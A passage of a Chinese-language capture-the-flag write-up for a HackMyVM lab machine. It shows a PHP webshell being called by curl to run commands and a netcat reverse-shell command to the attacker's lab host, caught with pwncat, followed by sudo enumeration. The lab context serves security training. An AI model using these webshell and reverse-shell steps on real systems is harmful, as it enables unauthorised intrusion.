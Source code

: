 ```conf
                try_files $uri $uri/ =404;
        }

 # pass PHP scripts to FastCGI server
        #
               location ~ \.php$ {
               include snippets/fastcgi-php.conf;
        #
        #       # With php-fpm (or other unix sockets):
               fastcgi_pass unix:/run/php/php7.3-fpm.sock;
        #       # With php-cgi (or other tcp sockets):
        #       fastcgi_pass 127.0.0.1:9000;
        }
}
```

可以看到 `lonelysoul.hmv` 这个 domain 下的配置里面有 php 解析，加入 hosts 文件之后尝试访问

```plaintext title="/etc/hosts"
192.168.56.115 lonelysoul.hmv
```

然后尝试访问

```shell
┌─[randark@parrot]─[/usr/share/webshells/php]
└──╼ $ curl lonelysoul.hmv/simple-backdoor.php?cmd=whoami
<!-- Simple PHP backdoor by DK (http://michaeldaw.org) -->

<pre>www-data
</pre>
```

命令被成功执行

## User - www-data

```shell
# curl lonelysoul.hmv/simple-backdoor.php?cmd=nc+192.168.56.102+9999+-e+/bin/bash
┌─[randark@parrot]─[~]
└──╼ $ pwncat-cs -lp 9999
[10:07:14] Welcome to pwncat 🐈!
[10:07:41] received connection from 192.168.56.115:47562
[10:07:41] 192.168.56.115:47562: registered new host w/ db
(local) pwncat$ back
(remote) www-data@soul:/var/www/html$ whoami
www-data
```

### 环境探测

```plaintext title="sudo -l"
Matching Defaults entries for www-data on soul:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on soul:
    (gabriel) NOPASSWD: /tmp/whoami
```
